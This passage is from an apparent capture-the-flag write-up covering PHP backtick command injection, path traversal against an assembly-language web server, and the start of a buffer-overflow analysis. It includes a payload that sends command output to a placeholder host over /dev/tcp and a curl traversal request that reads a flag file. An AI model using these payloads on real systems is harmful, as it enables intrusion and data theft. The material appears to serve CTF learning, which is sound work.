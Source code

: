 Use PHP [execution operator](https://www.php.net/manual/en/language.operators.execution.php) to execute arbitrary command

```php
?x=`$x`;sleep 1
?x=`$x`;bash -c 'ls > /dev/tcp/your-server.com/12345'
```

And you will recieve:

```php
BAMBOOFOX{d22a508c497c1ba84fb3e8aab238a74e}
index.php
```

### HAPPY

1. There was a `/.git` directory exposed publicly, and you can get `/.git/HEAD`. If you use directory scanner, you would probably find `/Makefile` as well.
2. Source code is also under the document root, which can be viewed directly (`Makefile`, `log.asm`, `server.asm`, `http.asm`, `utils.asm`, `socket.asm`). It's a web server written in x86_64 assembly language.
3. In `http.asm`, to retrieve a file, it just prepend `"."` to the path provided in the HTTP request. For example:
    With
    ```shell
    GET /index.html HTTP/1.1
    ...
    ```
    it will read `./index.html` and send to you. 
4. So you just request with a file path like `/../../../../../../../../home/web/flags/flag1.txt` and it will send you the flag:
    ```bash
    $ curl --path-as-is http://59.124.168.42:8001/../../../../../../../../home/web/flags/flag1.txt
    BAMBOOFOX{251d19bd7cb60e72a3825d898bffcee5}
    ```
### NEW

1. `server.out` is a friendly binary assembled with `nasm`:
    ```shell
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
    ```
2. There was a buffer overflow while reading the request path in `http.asm`:
    ```assembly
    read_req_path:

        enter 1000, 0

    read_req_path_start:
